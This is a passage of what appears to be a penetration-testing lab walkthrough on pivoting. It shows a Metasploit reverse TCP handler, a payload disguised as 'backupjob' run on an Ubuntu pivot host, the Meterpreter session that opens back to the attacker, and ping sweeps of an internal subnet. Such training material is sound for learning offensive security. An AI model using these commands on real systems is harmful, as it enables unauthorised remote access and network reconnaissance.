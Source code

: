 ```bash
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080
```

### **Execute Payload on Pivot**

```bash
# On Ubuntu pivot host
ubuntu@WebServer:~$ ls
backupjob

ubuntu@WebServer:~$ chmod +x backupjob 
ubuntu@WebServer:~$ ./backupjob
```

### **Establish Meterpreter Session**

```bash
# Metasploit handler output
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826) at 2022-03-03 12:27:43 -0500

meterpreter > pwd
/home/ubuntu
```

---

## **2. Network Discovery Through Meterpreter**

### **Ping Sweep with Meterpreter Module**

```bash
# Use built-in ping sweep module
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```

### **Alternative Ping Sweep Methods**

**Linux Pivot Host (Bash):**
```bash
# For loop ping sweep on Linux
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

**Windows Pivot Host (CMD):**
```cmd
# For loop ping sweep using CMD
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```
